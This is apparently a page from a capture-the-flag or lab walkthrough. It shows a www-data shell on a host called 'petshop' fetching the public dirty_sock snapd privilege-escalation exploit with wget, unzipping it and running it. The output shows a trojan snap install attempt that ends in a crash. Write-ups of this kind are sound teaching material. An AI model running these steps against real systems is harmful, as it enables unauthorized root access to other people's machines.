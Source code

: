 <h4>46362.py</h4>

```bash
www-data@petshop:/dev/shm$ wget https://github.com/initstring/dirty_sock/archive/
...
master.zip              [ <=>                ]  21.86K  --.-KB/s    in 0.001s
```

```bash
www-data@petshop:/dev/shm$ 
www-data@petshop:/dev/shm$ unzip master.zip
Archive:  master.zip
c68e35ae3eb7f49a398c7d7f35bb920c79dc9b0e
   creating: dirty_sock-master/
   creating: dirty_sock-master/.github/
   creating: dirty_sock-master/.github/ISSUE_TEMPLATE/
  inflating: dirty_sock-master/.github/ISSUE_TEMPLATE/bug_report.md  
  inflating: dirty_sock-master/LICENSE  
  inflating: dirty_sock-master/README.md  
  inflating: dirty_sock-master/dirty_sockv1.py  
  inflating: dirty_sock-master/dirty_sockv2.py
```

```bash
www-data@petshop:/dev/shm$ ls
dirty_sock-master  master.zip
```

```bash
www-data@petshop:/dev/shm$ cd dirty_sock-master
www-data@petshop:/dev/shm/dirty_sock-master$ ls
LICENSE  README.md  dirty_sockv1.py  dirty_sockv2.py
```

```bash
www-data@petshop:/dev/shm/dirty_sock-master$ chmod +x dirty_sockv2.py
www-data@petshop:/dev/shm/dirty_sock-master$ ./dirty_sockv2.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/tahqkleisc;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...
Traceback (most recent call last):
  File "./dirty_sockv2.py", line 246, in <module>
    main()
  File "./dirty_sockv2.py", line 236, in main
    delete_snap(client_sock)
  File "./dirty_sockv2.py", line 121, in delete_snap
    http_reply = client_sock.recv(8192).decode("utf-8")
ConnectionResetError: [Errno 104] Connection reset by peer
```
